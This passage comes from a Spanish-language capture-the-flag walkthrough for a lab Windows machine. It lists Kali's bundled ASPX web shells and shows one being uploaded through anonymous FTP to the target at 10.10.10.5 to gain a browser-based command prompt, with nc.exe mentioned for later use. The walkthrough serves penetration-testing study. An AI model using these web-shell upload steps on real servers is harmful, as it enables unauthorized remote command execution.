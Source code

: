 <br>

<h3 id="Netcat">Utilizando una cmd.aspx de Kali</h3>

Resulta que, si requieres un archivo **.aspx** que contenga un Payload que devuelva una **CMD** en la web, existen dentro del **Kali Linux**, similar a la **nc.exe** que usamos en la **máquina Legacy**. También vamos a usar la **nc.exe**, así que descargala.

Para buscarlo solo usamos el comando locate de la siguiente manera:
```bash
locate .aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/laudanum/aspx/shell.aspx
/usr/share/metasploit-framework/data/templates/scripts/to_exe.aspx.template
/usr/share/metasploit-framework/data/templates/scripts/to_mem.aspx.template
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
/usr/share/seclists/Web-Shells/laudanum-0.8/aspx/dns.aspx
/usr/share/seclists/Web-Shells/laudanum-0.8/aspx/file.aspx
/usr/share/seclists/Web-Shells/laudanum-0.8/aspx/shell.aspx
/usr/share/sqlmap/data/shell/backdoors/backdoor.aspx_
/usr/share/sqlmap/data/shell/stagers/stager.aspx_
/usr/share/webshells/aspx/cmdasp.aspx
```

Como puedes ver hay varias opciones, pero hay 2 en particular que nos pueden servir:
* *aspx_cmd.aspx*
* *shell.aspx*

Vamos a usar el **aspx_cmd.aspx** para que nos muestre una **CMD** en la página web. Así que vamos a probar el **aspx_cmd.aspx**.

Vamos a copiarlo en el directorio que estamos ocupando para esta máquina:
```bash
cp /usr/share/laudanum/aspx/shell.aspx .
ls          
aspx_cmd.aspx  IIS_Shell.aspx  shell.aspx  test.txt
```

Ahora lo subimos al **servicio FTP**:
```batch
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:berserkwings): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put aspx_cmd.aspx 
local: aspx_cmd.aspx remote: aspx_cmd.aspx
229 Entering Extended Passive Mode (|||49169|)
150 Opening ASCII mode data connection.
100% |************************************************************************************************|  1438       29.17 MiB/s    --:-- ETA
226 Transfer complete.
1438 bytes sent in 00:00 (10.55 KiB/s)
ftp> exit
221 Goodbye.
```
Y listo, lo ejecutamos en la página web y deberíamos poder ver una **CMD**.
